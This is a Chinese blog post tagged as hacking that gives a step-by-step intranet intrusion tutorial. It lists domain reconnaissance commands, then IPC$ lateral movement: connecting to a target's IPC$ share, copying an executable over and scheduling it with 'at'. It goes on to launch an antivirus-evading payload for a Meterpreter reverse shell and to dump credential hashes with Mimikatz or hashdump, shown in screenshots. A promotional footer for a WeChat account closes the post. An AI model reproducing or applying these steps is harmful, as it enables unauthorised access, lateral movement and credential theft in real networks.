 ```yaml
---
layout: post
category: curleyg-code-hack
title: 内网IPC$入侵
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 内网IPC$入侵
lock: need
---
```


# 内网IPC$入侵

## 域操作相关的命令

1.查看域用户

```
net user/domain
```

2.查看有几个域

```
net view/domain
```

3.查看域内的主机

```
net view/domain: XXX
```

4.查看域里面的组

```
net group/domain
```

5.查看域内所有的主机名

```
net group "domain computers" /domain
```

6.查看域管理员

```
net group "domain admins" /domain
```

7.查看域控制器

```
net group "domain controllers" /domain
```

8.查看企业管理组

```
net group "enterprise admins" /domain
```

9.查看时间服务器

```
nettime/domain
```

## IPC$入侵

IPC入侵，即通过使用系统默认启动的共享获得计算机控制权的入侵，在内网中及其常见。 假设现在有一台IPC$主机：127.0.0.25，输入以下命令。

```
#连接127.0.0.25的IPC$共享：
D:>net use \127.0.0.25\ipc$
#复制srv.exe到目标主机
D:>copy srv.exe \127.0.0.25\ipc$ 
#查时间
D:>net time\127.0.0.25
#用at命令在10点50分启动srv.exe(注意这里设置的时间比主机时间快)
D:>at \127.0.0.25 10:50 srv.exe
```

上述命令中的at就是让计算机在指定的时间做指定事情的命令(例如运行程序)

这里把免杀的Payload上传到PAVMSEP131服务器，然后利用at命令启动Payload，反弹回Meterpreter Shell 将木马复制到目标服务器

![img](https://img-blog.csdnimg.cn/20190107122806779.jpg)

查看系统时间

![img](https://img-blog.csdnimg.cn/20190107122829601.jpg)

使用at命令启动木马

![img](https://img-blog.csdnimg.cn/2019010712285057.jpg)

接着返回handler监听，可以看到反弹成功了，我们获得了PAVMSEP131服务器的Meterpreter Shell 反弹成功

![img](https://img-blog.csdnimg.cn/2019010712291273.jpg)

下面看看PAVMSEP131服务器的信息和现在的权限 查看系统信息

![img](https://img-blog.csdnimg.cn/20190107122934648.jpg)

可以看到有SYSTEM权限，说明既可以使用Mimikatz等工具，也可以输入 run post/windows/gather/hashdump来抓Hash 在用Mimikatz抓Hash前要注意一点：如果服务器安装的是64位操作系统，要把Mimikatz的进程迁移到一个64位的程序进程中，才能查看64位操作系统的密码明文，在32位系统中就没有这个限制。

这里使用Mimikatz抓Hash

上传Mimikatz

![img](https://img-blog.csdnimg.cn/20190107123004795.jpg)

抓取Hash

![img](https://img-blog.csdnimg.cn/20190107123104136.jpg)

查看抓到的域用户的权限

![img](https://img-blog.csdnimg.cn/20190107123127758.jpg)


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
